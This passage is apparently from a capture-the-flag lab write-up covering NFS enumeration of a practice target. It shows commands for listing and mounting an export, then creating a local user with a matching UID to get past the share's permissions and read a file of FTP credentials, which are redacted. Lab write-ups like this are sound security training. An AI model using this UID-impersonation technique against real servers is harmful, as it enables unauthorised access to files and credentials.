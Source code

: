 So, we have 4 services - `ftp`, `ssh`, `rpcbind`, `http` and `nfs`

I think we can start with `nfs` - maybe there are any mounts for us

#### NFS enumeration

We can start with seeing what do we have to mount
```
$ showmount -e $IP
Export list for 10.10.124.164:
/mnt/share *
```

Okay, let's mount it
```
$ mkdir share
$ sudo mount -t nfs $IP:/mnt/share share 
```

But when we try to open it, we get denied access

But there is a option to bypass it - let's see it's privileges

```
$ ls -la
[...]
-rw-r--r--  1 wizarddos wizarddos 1644 10-24 19:27 scan.txt
drwx------  2 1003           1003 4096 08-08 21:28 share

```

It means, that this folder is owned by user with uid = 1003 -  so we need to update our uid or create a new user with that uid

I've created a dummy one

switch to root and create a user
```
$ sudo su
[...]
# useradd 1003
```

And then edit `/etc/passwd`

```
# nano /etc/passwd
```

Find a user with name `1003` and change his line to this
```
1003:x:1003:1003::/home/1003:/bin/sh
```

Then we can easily access `share` folder - let's see it

```
$ su 1003

$ ls -la share
drwx------ 2 1003           1003 4096 08-08 21:28 .
drwxr-xr-x 3 wizarddos wizarddos 4096 10-24 19:35 ..
-rwx------ 1 1003           1003   46 08-08 21:28 for_employees.txt
```
There is one text file, let's see it 
```
$ cat for_employees.txt
ftp creds :

[REDACTED]
```
